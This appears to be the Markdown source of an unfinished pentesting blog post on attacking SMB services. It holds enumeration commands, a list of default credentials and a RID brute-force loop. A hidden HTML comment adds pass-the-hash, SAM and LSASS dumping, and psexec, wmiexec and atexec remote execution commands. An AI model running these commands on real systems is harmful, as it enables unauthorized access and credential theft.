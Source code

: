 ```yaml
---
title: SMB Protocol
---
```


Have you found that the SMB service is running and you don't know what to do with it?

I am going to show you what this service is and how you can exploit it

![Alt text](/images/smbprotocol.png?raw=true "SMB-Protocol")

<!-- more -->

# Introduction

First of all, the **Server Message Block** (SMB) is a client-server protocol that regulates access to entire files and directories and other network resources such as:
- Printers
- Routers
- Interfaces released to the network

The application area is mainly active on *Windows* operating systems, these network services support SMB with older versions, this means that older windows operating systems are perfectly compatible with newer ones.
However, there is a solution that allows the use of SMB on ***Linux and Unix*** distributions via Samba.

The SMB server can provide some parts (if it allows it) of your local files, such as shares.
Therefore the part visible to a client is on the one hand independent of the server structure.
Access rights are defined by access control lists ***(ACL)***. They can be controlled by attributes such as: 
- Execute
- Read
- Full access for individual users or groups of users

***ACLs*** are defined on the basis of shared resources and therefore do not correspond to the rights assigned locally on the server.

# First steps: Enumeration

Scan a network searching for hosts:

``` console
$ nbtscan -r 192.168.0.1/24
```

# View the SMB server version
First, to look for possible exploits in SMB it is important to know which version is being used. To do this you can use the MSF auxiliary module: 

``` console
$ msfconsole

$ msf6> use auxiliary/scanner/smb/smb_version
```

Or u can use **this script**:

``` bash
 #!/bin/sh
 #Author: rewardone
 #Description:
 #Requires root or sufficient permissions to use tcpdump.
 # It will listen for the first 7 packets of a null login
 # and will take the SMB version
 #Notes:
 # Sometimes it will not capture or print multiple # lines.
 # lines. It may be necessary to run a second time to succeed.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '{\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
echo "" && sleep .1
```


# SearchSploit

To search for possible exploits that are related to SMB protocol you can use this command in msfconsole:

``` console
$ msfconsole

    Trace program: running

           wake up, Neo...
        the matrix has you
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


$ msf6> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```

Or you can use this command, note that you must have installed searchsploit

``` console
$ searchsploit smb
```
More info: [searchsploit](https://www.exploit-db.com/searchsploit)

# Possible Credentials

Sometimes companies leave the smb protocol misconfigured, or don't even configure it at all, and sometimes if they do, they leave very basic credentials, which you can try to use, such as: 

| Usernames            | Passwords                               |
|----------------------|-----------------------------------------|
| (blank)              | (blank)                                 |
| guest                | (blank)                                 |
| Administrator, admin | (blank), password, administrator, admin |
| arcserve             | arcserve, backup                        |
| tivoli, tmersrvd     | tivoli, tmersrvd, admin                 |
| backupexec, backup   | backupexec, backup, arcada              |
| test, lab, demo      | password, test, lab, demo               |


# Some Commands to get more information

``` console
 #Dump interesting information
$ enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
$ enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>
$ nmap --script "safe or smb-enum-*" -p 445 <IP>

 #Connect to the rpc
$ rpcclient -U "" -N <IP> #No creds
$ rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
$ #You can use querydispinfo and enumdomusers to query user information

 #Dump user information
$ /usr/share/doc/python3-impacket/examples/samrdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
$ /usr/share/doc/python3-impacket/examples/samrdump.py -port 445 [[domain/]username[:password]@]<targetName or address>

 #Map possible RPC endpoints
$ /usr/share/doc/python3-impacket/examples/rpcdump.py -port 135 [[domain/]username[:password]@]<targetName or address>
$ /usr/share/doc/python3-impacket/examples/rpcdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
$ /usr/share/doc/python3-impacket/examples/rpcdump.py -port 445 [[domain/]username[:password]@]<targetName or address>
```

# Enumerating LSARPC and SAMR rpcclient

Pat of this section was extracted from book "Network Security Assesment 3rd Edition"
You can use the Samba rpcclient utility to interact with RPC endpoints via named pipes. The following lists commands that you can issue to SAMR, LSARPC, and LSARPC-DS interfaces upon establishing a SMB session (often requiring credentials).
### Server Info
- Server Info: **srvinfo**
### Users enumeration
- List users: **querydispinfo** and **enumdomusers**
- Get user details: **queryuser <0xrid>**
- Get user groups: **queryusergroups <0xrid>**
- GET SID of a user: **lookupnames <username>**
- Get users aliases: **queryuseraliases [builtin|domain] <sid>**

``` python
 #Brute-Force users RIDs
for i in $(seq 500 1100); do
    rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";
done
```
















<!---
# You can also use samrdump.py for this purpose
Groups enumeration
List groups: enumdomgroups
Get group details: querygroup <0xrid>
Get group members: querygroupmem <0xrid>
Aliasgroups enumeration
List alias: enumalsgroups <builtin|domain>
Get members: queryaliasmem builtin|domain <0xrid>
Domains enumeration
List domains: enumdomains
Get SID: lsaquery
Domain info: querydominfo
Shares enumeration
Enumerate all available shares: netshareenumall
Info about a share: netsharegetinfo <share>
More SIDs
Find SIDs by name: lookupnames <username>
Find more SIDs: lsaenumsid
RID cycling (check more SIDs): lookupsids <sid>
Extra commands

To understand better how the tools samrdump and rpcdump works you should read Pentesting MSRPC.
GUI connection from linux
In the terminal:
xdg-open smb://cascade.htb/
In file browser window (nautilus, thunar, etc)
smb://friendzone.htb/general/
List shared folders
It is always recommended to look if you can access to anything, if you don't have credentials try using null credentials/guest user.
smbclient --no-pass -L //<IP> # Null user
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
smbmap -H <IP> [-P <PORT>] #Null user
smbmap -u "username" -p "password" -H <IP> [-P <PORT>] #Creds
smbmap -u "username" -p "<NT>:<LM>" -H <IP> [-P <PORT>] #Pass-the-Hash
crackmapexec smb <IP> -u '' -p '' --shares #Null user
crackmapexec smb <IP> -u 'username' -p 'password' --shares #Guest user
crackmapexec smb <IP> -u 'username' -H '<HASH>' --shares #Guest user
Connect/List a shared folder
#Connect using smbclient
smbclient --no-pass //<IP>/<Folder>
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
#Use --no-pass -c 'recurse;ls'  to list recursively with smbclient

#List with smbmap, without folder it list everything
smbmap [-u "username" -p "password"] -R [Folder] -H <IP> [-P <PORT>] # Recursive list
smbmap [-u "username" -p "password"] -r [Folder] -H <IP> [-P <PORT>] # Non-Recursive list
smbmap -u "username" -p "<NT>:<LM>" [-r/-R] [Folder] -H <IP> [-P <PORT>] #Pass-the-Hash
Manually enumerate windows shares and connect to them
It may be possible that you are restricted to display any shares of the host machine and when you try to list them it appears as if there aren't any shares to connect to. Thus it might be worth a short to try to manually connect to a share. To enumerate the shares manually you might want to look for responses like NT_STATUS_ACCESS_DENIED and NT_STATUS_BAD_NETWORK_NAME, when using a valid session (e.g. null session or valid credentials). These may indicate whether the share exists and you do not have access to it or the share does not exist at all.
Common share names for windows targets are
C$
D$
ADMIN$
IPC$
PRINT$
FAX$
SYSVOL
NETLOGON
(Common share names from Network Security Assessment 3rd edition)
You can try to connect to them by using the following command
smbclient -U '%' -N \\\\<IP>\\<SHARE> # null session to connect to a windows share
smbclient -U '<USER>' \\\\<IP>\\<SHARE> # authenticated session to connect to a windows share (you will be prompted for a password)
or this script (using a null session)
#/bin/bash

ip='<TARGET-IP-HERE>'
shares=('C$' 'D$' 'ADMIN$' 'IPC$' 'PRINT$' 'FAX$' 'SYSVOL' 'NETLOGON')

for share in ${shares[*]}; do
    output=$(smbclient -U '%' -N \\\\$ip\\$share -c '') 

    if [[ -z $output ]]; then 
        echo "[+] creating a null session is possible for $share" # no output if command goes through, thus assuming that a session was created
    else
        echo $output # echo error message (e.g. NT_STATUS_ACCESS_DENIED or NT_STATUS_BAD_NETWORK_NAME)
    fi
done
examples
smbclient -U '%' -N \\\\192.168.0.24\\im_clearly_not_here # returns NT_STATUS_BAD_NETWORK_NAME
smbclient -U '%' -N \\\\192.168.0.24\\ADMIN$ # returns NT_STATUS_ACCESS_DENIED or even gives you a session
Mount a shared folder
mount -t cifs //x.x.x.x/share /mnt/share
mount -t cifs -o "username=user,password=password" //x.x.x.x/share /mnt/share
Download files
Read previous sections to learn how to connect with credentials/Pass-the-Hash.
#Search a file and download
sudo smbmap -R Folder -H <IP> -A <FileName> -q # Search the file in recursive mode and download it inside /usr/share/smbmap
#Download all
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
#Download everything to current directory
Commands:
mask: specifies the mask which is used to filter the files within the directory (e.g. "" for all files)
recurse: toggles recursion on (default: off)
prompt: toggles prompting for filenames off (default: on)
mget: copies all files matching the mask from host to client machine
(Information from the manpage of smbclient)
Read Registry
You may be able to read the registry using some discovered credentials. Impacket reg.py allows you to try:
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKCU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKLM -s
Local users
Enumerate local users with SID brute-forcing:
With Impacket:
lookupsid.py -no-pass hostname.local
With Metasploit:
use auxiliary/scanner/smb/smb_lookupsid
set rhosts hostname.local
run
Note: rpcclient command lookupsids only translates a SID to a username but doesn't allow enumeration via brute-forcing.
Post Exploitation
The default config of a Samba server is usually located in /etc/samba/smb.conf and might have some dangerous configs:

The command smbstatus gives information about the server and about who is connected.
Authenticate using Kerberos
You can authenticate to kerberos using the tools smbclient and rpcclient:
smbclient --kerberos //ws01win10.domain.com/C$
rpcclient -k ws01win10.domain.com
Execute
crackmapexec
crackmapexec can execute commands abusing any of mmcexec, smbexec, atexec, wmiexec being wmiexec the default method. You can indicate which option you prefer to use with the parameter --exec-method:
apt-get install crackmapexec

crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute
psexec/smbexec

Both options will create a new service (using \pipe\svcctl via SMB) in the victim machine and use it to execute something (psexec will upload an executable file to ADMIN$ share and smbexec will point to cmd.exe/powershell.exe and put in the arguments the payload --file-less technique--).
More info about psexec and smbexec.
In kali it is located on /usr/share/doc/python3-impacket/examples/
#If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
Using parameter-k you can authenticate against kerberos instead of NTLM
wmiexec/dcomexec
Stealthily execute a command shell without touching the disk or running a new service using DCOM via port 135.
In kali it is located on /usr/share/doc/python3-impacket/examples/
#If no password is provided, it will be prompted
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
Using parameter-k you can authenticate against kerberos instead of NTLM
#If no password is provided, it will be prompted
./dcomexec.py [[domain/]username[:password]@]<targetName or address>
./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
AtExec
Execute commands via the Task Scheduler (using \pipe\atsvc via SMB).
In kali it is located on /usr/share/doc/python3-impacket/examples/
./atexec.py [[domain/]username[:password]@]<targetName or address> "command"
./atexec.py -hashes <LM:NT> administrator@10.10.10.175 "whoami"
Impacket reference
https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/
Bruteforce users credentials
This is not recommended, you could block an account if you exceed the maximum allowed tries
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce each user name
SMB relay attack
This attack uses the Responder toolkit to capture SMB authentication sessions on an internal network, and relays them to a target machine. If the authentication session is successful, it will automatically drop you into a system shell.
More information about this attack here.
-->


# Blog incomplete, working on it :)
